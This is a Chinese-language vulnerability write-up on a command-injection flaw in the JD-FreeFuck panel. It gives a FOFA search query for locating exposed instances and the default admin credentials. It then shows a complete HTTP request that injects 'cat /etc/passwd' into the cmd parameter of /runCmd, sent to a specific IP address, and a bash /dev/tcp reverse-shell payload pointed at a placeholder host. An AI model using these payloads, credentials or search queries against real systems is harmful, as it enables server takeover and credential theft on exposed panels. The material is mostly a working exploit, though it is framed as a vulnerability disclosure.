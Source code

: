 # JD-FreeFuck 后台命令执行漏洞

## 漏洞描述

JD-FreeFuck 存在后台命令执行漏洞，由于传参执行命令时没有对内容过滤，导致可以执行任意命令，控制服务器

项目地址： https://github.com/meselson/JD-FreeFuck

## 漏洞影响

> [!NOTE]
>
> JD-FreeFuck

## FOFA

> [!NOTE]
>
> title="京东薅羊毛控制面板"

## 漏洞复现

访问后登录页面如下

![](http://wikioss.peiqi.tech/vuln/jd-1.png)

默认账号密码为 

**useradmin/supermanito**

![](http://wikioss.peiqi.tech/vuln/jd-2.png)

发送如下请求包执行命令

```
POST /runCmd HTTP/1.1
Host: 101.200.189.251:5678
Content-Length: 50
Pragma: no-cache
Cache-Control: no-cache
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: connect.0.6356777726800276=s%3Av1W6DxlSqnPpVgvMCItxElFeKI1Psh4i.eE4ORs0Yz30N0TOg1pUVpOqrpIHyrqIimuXJVO8lE7U
Connection: close

cmd=bash+jd.sh+%3Bcat /etc/passwd%3B+now&delay=500
```

其中 cmd 参数存在命令注入

![](http://wikioss.peiqi.tech/vuln/jd-3.png)

反弹shell

```
cmd=bash+jd.sh+%3Bbash+-c+'exec+bash+-i+%26%3E%2Fdev%2Ftcp%2Fxxx.xxx.xxx.xxx%2F9999+%3C%261'%3B+now&delay=500
```

![](http://wikioss.peiqi.tech/vuln/jd-4.png)

## 参考文章

@桃花心 师傅

https://www.secquan.org/Discuss/1071932#reply3